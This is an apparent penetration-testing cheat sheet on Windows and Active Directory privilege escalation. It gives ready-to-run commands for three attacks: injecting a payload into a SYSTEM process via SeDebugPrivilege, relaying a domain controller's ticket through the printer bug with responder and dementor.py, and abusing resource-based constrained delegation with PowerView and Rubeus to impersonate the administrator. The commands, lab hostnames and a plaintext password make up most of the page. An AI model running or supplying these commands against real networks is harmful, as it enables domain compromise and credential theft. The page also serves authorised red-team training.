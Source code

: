 ```yaml
---
description: >-
  The adversary is trying to gain higher-level permissions.
  https://attack.mitre.org/tactics/TA0004/
---
```


# Privilege Escalation

## Process Elevation (via SeDebugPrivilege)

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM. One way of doing it, is using [decoder](https://twitter.com/decoder\_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:

&#x20;`. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864, 'C:\temp\payload.exe');`&#x20;

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## Attacking spoolss ("The Printer Bug")

From a host with unconstrained delegation, "[the printer bug](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)" and [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) can be used to cause a TGT relay from the target host to us running responder, so we can generate a TGS for any user on that target host:

<pre class="language-sh" data-overflow="wrap"><code class="lang-sh">## set up a relay with responder:
<strong>responder -I tun0 --lm # tun0 = 10.10.15.123
</strong>
## execute exploit through:
proxychains python dementor.py -u xsvc -p 'S3cur3PW123' -d 'burmat.local' 10.10.15.123 10.10.10.123
</code></pre>

## GenericWrite to Host + User SPN = PWN

If we have `GenericWrite` privileges over a host and we are a user that has an SPN, we can write our SID to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property against the AD object user [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev) and forge tickets as anyone we like. You can read more about it here: [https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path](https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path)

{% code overflow="wrap" %}
```powershell
## we can write our delegation attribute to the DC with the following:
$UserSid = Get-DomainUser svc_burmat -Properties objectsid | Select -Expand objectsid;
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes, 0);
Get-DomainComputer websrv.burmat.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes};

## use rubeus to forge tickets as administrator accounts
rubeus.exe s4u /user:svc_burmat /ticket:doIFFDCCBRCg..SNIP.. /impersonateuser:administrator /msdsspn:cifs/websvr.burmat.local /ptt;
```
{% endcode %}


